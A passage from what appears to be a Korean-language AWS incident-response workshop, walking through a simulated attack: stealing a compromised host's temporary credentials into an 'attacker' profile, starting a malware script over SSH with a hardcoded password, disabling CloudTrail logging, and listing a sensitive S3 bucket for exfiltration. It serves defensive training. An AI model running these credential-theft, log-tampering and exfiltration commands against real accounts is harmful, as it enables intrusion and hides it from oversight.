 
```
/home/ubuntu/get-credential.sh
```
정상적으로 2-2단계가 진행되었다면, 5 분 이내에 Compromised Host에 대한 SSH 포트 차단 규칙이 NACL에 반영되므로, 5분 안에 단계 2-3을 진행해야 합니다.

계속해서 다음 스크립트를 통해, 탈취한 Compromised Host의 임시 자격증명을 Malicious Host 상에 설정합니다. 정상적으로 실행된다면, --attacker 라는 aws CLI용 Profile이 생성되며, 별도의 결과는 없습니다.

```
$ /home/ubuntu/get-credential.sh
Warning: Permanently added '10.0.0.15' (ECDSA) to the list of known hosts.
$ /home/ubuntu/set-credential.sh
```

### 2-4 Compromised Host에 있는 malware 기동
이번에는 다음 스크립트를 통해 Compromised Host에 있는 i-am-malware를 기동해 보겠습니다. 정상적으로 실행되면 아무런 리턴을 하지 않습니다.

```
/home/ubuntu/start-malware.sh
```

```
# make script to start malware installed on Compromised Host
cat <<EOT >> /home/ubuntu/start-malware.sh
#!/bin/bash
/usr/bin/sshpass -p "hackedPassword123!" ssh -o StrictHostKeyChecking=no hackeduser@10.0.0.15 ". ./i-am-malware.sh"
EOT
chmod 744 /home/ubuntu/start-malware.sh
chown ubuntu /home/ubuntu/start-malware.sh
```

### 2-5 CloudTrail 로깅 비활성화
탈취한 자격증명을 통해, AWS Cloudtrail의 구성되어 있는 trail 목록을 확인하겠습니다. 다음 AWS CLI를 실행해 주시기 바랍니다.

```
/usr/local/bin/aws cloudtrail list-trails --profile attacker

# 아래 CLI를 통해 CloudTrail에 구성된 해당 Trail을 비활성화 해보겠습니다. 정상적으로 실행되면 아무런 결과를 리턴하지 않습니다.


/usr/local/bin/aws cloudtrail stop-logging --name arn:aws:cloudtrail:ap-northeast-2:${ACCOUNT_ID}:trail/sir-workshop-trail --profile attacker
```
### 2-6 S3의 중요 기밀 파일 유출, Public설정, 암호화 해제

접속중인 Session Manager 브라우져 쉘에서, 다음 CLI를 통해 다음 버킷의 객체들을 조회해 봅니다.

```
/usr/local/bin/aws s3api list-objects --bucket sir-workshop-${ACCOUNT_ID}-ap-northeast-2-data --profile attacker```
